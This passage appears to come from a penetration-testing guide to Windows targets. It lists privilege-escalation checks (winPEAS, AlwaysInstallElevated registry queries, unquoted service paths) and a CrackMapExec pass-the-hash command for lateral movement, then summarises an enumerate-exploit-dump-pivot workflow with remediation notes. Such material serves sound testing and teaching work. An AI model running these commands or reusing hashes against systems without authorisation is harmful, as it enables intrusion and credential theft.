 ```bash
C:\Windows\Temp\winpeas.exe

# 8) Common privesc checks
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows" | findstr /i " "

# 9) Lateral movement
cme smb 10.10.10.0/24 -u USER -H NTHASH --shares
```

## Summary
- Windows targets expose rich attack surfaces via SMB, RDP, and WinRM; prioritize enumerating these services.
- Combine credential-focused approaches (null sessions, spraying, pass-the-hash) with patch-based checks (MS17-010) for quick footholds.
- After access, dump credentials and run structured privesc checks (winPEAS, registry, services, privileges).
- Re-use harvested creds/hashes to move laterally.
- Keep your approach methodical: enumerate → validate → exploit → escalate → dump → pivot, and always map findings to clear remediation (patching, disabling LLMNR, hardening shares/services, enforcing strong passwords).